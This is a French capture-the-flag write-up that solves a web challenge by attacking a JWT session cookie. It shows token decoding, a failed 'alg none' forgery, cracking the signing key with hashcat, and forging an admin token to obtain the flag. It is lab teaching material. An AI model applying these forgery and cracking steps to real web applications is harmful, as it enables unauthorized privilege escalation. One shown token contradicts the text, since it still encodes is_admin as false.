 # Web - KoroDesign
![énoncé](images/korodesign.png)  
On se rend à l'URL indiqué.  
![index](images/korodesign_index.jpg)  
On check le code source... rien d'intéressant.  
On regarde s'il n'y a pas de "robots.txt" ou "sitemap.xml"... Ni l'un ni l'autre.  
On clique sur "A propos".  
```
Hello, Gros merci a Koro pour son design et merci a vous pour la participation :)
Vu que vous êtes sympa on vous a créé un compte guest/guest sur l'appli ... ;)
Peace ! Unknown101
```
On apprend donc qu'un compte guest/guest existe.  
On retourne à l'accueil et on va sur "login".  
Rien dans le code source. On teste guest/guest. Et on est redirigé vers "/flag.php".  
![flag.php](images/korodesign_flag_php.jpg)  
Toujours rien dans le code source.  
On regarde les cookies : `F12 > Stockage`  
Il y a un cookie nommé `custom` et qui a pour valeur : `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9.th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY`  
On reconnait içi un JWT (JSON Web Token) par sa forme : [data].[data].[data]  
On se renseigne sur le JWT. La page [Wikipédia anglaise](https://en.wikipedia.org/wiki/JSON_Web_Token) nous explique ce qu'est ce token et de quoi il est composé.  
![structure JWT](images/korodesign_wiki_jwt.png)  
On récupère notre token puis on le décode.
```
$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
{"typ":"JWT","alg":"HS256"}
$ echo "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9" | base64 -d
{"username":"guest","is_admin":"false"}
$ echo "th6ARHDhsvWtOqW38esNe269u2NJlm_CE3t9nXZLHrY" | base64 -d
{n��cI�base64: entrée incorrecte
```
La dernière partie, illisible, s'agit de la signature.  
On apprend que notre token est signé avec l'algorithme HS256 et contient un champs qui pourrait nous intéresser : "is_admin":"false"  
On se renseigne sur les différentes attaques possibles avec un JWT : [](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)  
On peut donc : 
* mettre la valeur du champs "alg" à "none"
* changer l'algorithme de RS256 à HS256 (içi, nous sommes déjà en HS256, l'attaque n'est donc pas réalisable)
* cracker la clé utilisée pour générer la signature
## Mettre la valeur du champs "alg" à "none"
On essaie la 1ère technique (on pense bien sûr à changer la valeur de "is_admin"): 
```
$ echo '{"typ":"JWT","alg":"none"}' | base64 > crafted
$ echo "." >> crafted
$ echo '{"username":"guest","is_admin":"true"}' | base64 >> crafted
$ echo "." >> crafted
```
On enlève les retours à la ligne avec un éditeur de texte ainsi que les "=" afin d'avoir un token correct car le JWT doit être base64url encodé.  
On a donc : `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0K.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJmYWxzZSJ9Cg.`  
On retourne sur notre navigateur. On change la valeur de "custom" par le token que l'on vient de créer.  
On recharge la page... et on se prend un "500 Internal Server Error". L'attaque n'a pas marchée.
## Cracker la clé utilisée pour générer la signature
On a vu tout à l'heure que l'on pouvait également cracker la clé utilisée pour générer la signature afin de pouvoir signer nos tokens de la même manière que le serveur le fait !  
On utilise alors hashcat :
```
$ hashcat -a0 -m 16500 jwt /usr/share/worldlists/rockyou.txt
[...] peu de temps après, on a la clé
!passw0rd
```
La clé utilisée pour signer les tokens est donc "!passw0rd".  
A présent, on peut se rendre sur [CyberChef](https://gchq.github.io/CyberChef/) afin de nous simplifier la tâche. 
On ajoute JWT Sign, puis on change l'algorithme pour "HS256", on remplit le champs Private/Secret Key par "!passw0rd" et en input on met le payload de notre JWT soit `{"username":"guest","is_admin":"true"}`.  
On copie le token que CyberChef nous a gentillement construit : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiaXNfYWRtaW4iOiJ0cnVlIiwiaWF0IjoxNTg0MjM2OTI1fQ.2l-phLQqXNuGIpIxVN4vbY9NNMs8csBE1LN4uD1s630`  
On retourne sur la page de notre challenge et on modifie le cookie "custom" par notre nouveau token. On recharge la page.  
![flag](images/korodesign_flag.jpg)  
  
**FLAG : BC{Thanks_K0r0_for_css}**
